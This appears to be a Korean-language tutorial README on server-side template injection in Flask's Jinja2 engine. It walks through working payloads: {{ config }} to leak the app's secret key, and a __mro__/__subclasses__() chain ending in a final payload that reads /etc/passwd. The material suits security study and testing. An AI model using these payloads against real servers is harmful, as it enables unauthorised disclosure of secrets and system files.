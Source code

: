 # SSTI(Server Side Template Injection)

## SSTI?   
SSTI(Server Side Template Injection) 취약점은 공격자가 서버측의 기본 템플릿 구문을 이용하여 악성 페이로드를 삽입 한 다음 서버 측에 실행되면서 생기는 취약점이다.   
웹 템플릿 엔진마다 사용되는 페이로드가 다르다.   
<br/>




## SSTI 취약점을 이용한 템플릿 구분   
![1](1.png)
<br/>



## Flask Jinja2   
Flask의 경우 따로 정의하지 않으면 Jinja2 템플릿을 사용하게 된다.   
만약 사용자가 입력한 값이 템플릿 구문으로 인식하게 할 수 있다면 해당 템플릿 구문을 이용하여 SSTI취약점을 발생시켜 RCE(Remote Code Execute) 취약점으로 연계시킬 수 있다.   


### Flask.config   
기본적으로 Flask의 경우 app.n에 들어가는 대부분의 정보들이 config 클래스에 들어가게 된다.   
{{ config }} 해당 페이로드를 삽입하여 config 정보를 출력하게 만들면 app.secret_key에 들어간 중요한 정보들이 나오게 된다.   
![2](2.png)   <br/>

### Payload   
```{{ ''.__class__.__mro__ }}```를 출력해보면 다음과 같은 몇 가지가 나온다.
* <type 'str'>
* <type 'basestring'>
* <type 'object’>    



그 중에서 <type 'object’>  클래스로 들어가 서브 클래스를 출력하면 아래와 같이 object의 서브 클래스들이 출력된다.   
```{{ ''.__class__.__mro__[2].__subclasses__() }}```   <br/>   
![3](3.png)
<br/>
<br/>   

이들 중에서 본인 환경에서 40번째 클래스를 선택하면 파일 클래스를 찾을 수 있다.   
```{{ ''.__class__.__mro__[2].__subclasses__()[40] }}```-> <type 'file’>   <br/>   
![4](4.png)
<br/>

<br/>   
이제 여기서 open('/etc/passwd').read() 를 할 경우 파일을 읽을 수 있다.   
<br/><br/>

최종 페이로드   
```{{ ''.__class__.__mro__[2].__subclasses__()[40].open('/etc/passwd').read() }}```





